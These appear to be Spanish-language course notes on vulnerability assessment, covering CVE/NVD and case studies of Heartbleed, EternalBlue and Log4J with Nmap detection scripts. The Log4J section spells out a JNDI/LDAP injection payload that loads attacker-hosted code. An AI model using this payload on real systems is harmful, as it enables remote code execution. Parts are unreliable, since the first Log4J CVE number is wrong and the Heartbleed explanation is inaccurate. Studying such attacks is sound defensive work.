


# Assessment Methodologies: Vulnerability Assessment
# Indice

- [Introduccion](#introduccion)

---
---

# Introduccion

En este modulo haremos una pequeña introduccion a algunas vulnerabilidades, entre ellas veremos algunos casos de estudio como:
- Heartbleed
- EternalBlue
- Log4J

Y practicaremos en laboratorios algunas aplicaciones:
- Nessus
- ExploitDB

# Vulnerabilities
## ¿Que es una vulnerabilidad?

Una vulnerabildad es una deficiendia en la logica de la computacion que se puede encontrar en software y en el harware, y que cuando esta se explota puede causar un impacto negativo en la confidencialidad, integridad y disponibilidad.

Pueden ser vulnerabilidades fisicas como controles de acceso, sistemas de energia de emergencia... Recordar que la ciberseguridad no solo engloba las intrusiones que se pueden hacer via software o por red, sino que tambien puede ser que alguien entre fisicamente y robe unos HD o inserte un malware via un usb.

Las vulnerabilidades de una maquina pueden ser debidas a algun software instalado en la maquina o al propio sistema operativo.

## CVE Program

Es una institucion que se encarga de registrar las vulnerabilidades que se van descubriendo. [WEB](https://cve.mitre.org/cve/)

Los CVE tienen un identificador unico que identifica a las vulterabilidades.

Ejemplo: `CVE-2021-4428` --> es el identificador para la vulnerabilidad del log4J

- En las paginas de detalle de cada vulnerabilidad podremos encontrar:
    - Descripcion.
    - Severidad.
    - Referencias.
    - Listado de debilidades.
    - Configuraciones de software afectadas conocidas.

- Para encontrar vulnerabilidades hay una serie de cosas que podemos hacer:
    - Scanning
    - Asset Identification + Research
    - Fuzz Testing

## NVD National Vulnerability Database

Es otro registro muy parecido al CVE.

## Zero Days Attacks

Son vulnerabilidades que nadie ha reportado, por lo que si encontraramos alguna es recomndable reportarla para ayudar a la comunidad.

## Capa 8, la gente

Las habilidades para conseguir informacion de las personas o que hagan cosas que nos interesas tambien se considera una vulnerabilidad a explotar, como por ejemplo la ingenieria social.

---
---
# Casos de malwares conocidos
## Heartbleed 

- *cve-2014-0160*

- [Extra info](https://heartbleed.com/)

Afecta a la librería OpenSSL, permite robar la informacion protegida permitiendo leer la memoria de sistemas con versiones vulnerables de este software enviando un **"crafted packet"**.

Las siguientes versiones de OpenSSL estan afectadas:

- OpenSSL 1.0.1 through 1.0.1f
- OpenSSL 1.0.2-beta through 1.0.2-beta1

Basicamente lo que se hace es crear un paquete como el de la imagen, donde se pregunta **"Hey, la contraseña es HotPan123!@#  ?"** al servidor, pero ademas en el paquete se le dice que la password tiene longitud, y esta es la vulnerabilidad. 

En este punto el servidor comprobará en su memoria la variable de la contraseña y si es correct la devolverá, pero toda la longitud que sobrepase la longitud de la contraseña la cogerá de la siguiente informacion que haya haciendo un overflow y dandonos informacion de mas.

### Como ver si un servidor es vulnerable a HeartBleed

Se puede usar el siguiente script de nmap para ver la version del SSL:
- `ssl-enum-ciphers`

Tambien hay disponible un script de Nmap que nos dice directamente si un servidor es vulnerable o no:

- `ssl-heartbleed`

## EternalBlue
- *CVE-2017-0143*

Es una vulnerabilidad que afecto a hospitales, gobiernos, organizaciones... durante una buena parte del año 2017. Este fue creado por la NSA (National Security Agency) y se filtro por el grupo de hackers **The Shadow Brokers**, este lo utilizo **Wanacry**  el 12 de mayo de 2017 para hacer un ataque mundial de rasomware. 

Es una vulnerabilidad que afecta a SMBv1 permitiendo ejecutar codigo en un ordenador a partir de paquetes especificos aprovechandose del overflow, de esta manera se puede ejecutar cualquier cosa, incluido conseguir una revertshell.

### Como ver si un servidor es vulnerable a EternalBlue

Tenemos un script especifico de Nmap (como no):
- `smb-vuln-ms17-010`

## Log4J
- *CVE-2021-44228*

Es una librería que se usa para loguearse en Java que tiene una vulnerabilidad que a traves de un servidor LDAP se puede ejecutar codigo en la maquina victima.

Aprovecha una vulnerabilidad que permite inyectar codigo en un input de login con el siguiente formato -->`${jndi:ldap://demo.ine:1389/mycode}`, este codigo, la sentencia **jndi** hace que cargue codigo de un servidor **LDAP** que el atacante tendría alojado, en este caso ejecutaría "**mycode**".

